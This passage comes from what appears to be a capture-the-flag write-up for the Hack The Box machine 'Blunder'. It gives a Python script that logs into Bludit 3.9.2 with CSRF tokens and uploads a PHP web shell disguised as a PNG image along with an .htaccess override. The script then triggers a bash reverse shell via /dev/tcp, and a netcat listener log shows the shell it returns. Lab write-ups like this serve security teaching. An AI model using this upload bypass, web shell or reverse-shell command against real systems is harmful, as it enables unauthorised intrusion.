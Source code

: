     
    callback_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
    username = 'fergus'
    password = 'RolandDeschain'
    url = 'http://10.10.10.191'
    
    
    s = requests.session()
    
    # Login
    resp = s.get(f'{url}/admin/')
    csrf = re.findall('name="tokenCSRF" value="([0-9a-f]{32,})"', resp.text)[0]
    s.post(f'{url}/admin/', allow_redirects=False,
            data = {'tokenCSRF': csrf, 'username': username, 'password': password, 'remember': 'true', 'save': ''})
    
    # Get CSRF to upload images
    resp = s.get(f'{url}/admin/new-content/index.php')
    csrf = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]
    
    # Upload webshell
    form_data = {'images[]': ('0xdf.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
    data = {'uuid': 'junk',
            'tokenCSRF': csrf}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)
    
    # Upload .htaccess file
    form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)
    
    # Trigger Shell
    resp = s.get(f'{url}/bl-content/tmp/0xdf.php', params={'cmd':f'bash -c "bash -i >& /dev/tcp/{callback_ip}/443 0>&1"'})
    

### Shell

I can run that and get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.191.
    Ncat: Connection from 10.10.10.191:47374.
    bash: cannot set terminal process group (1108): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
    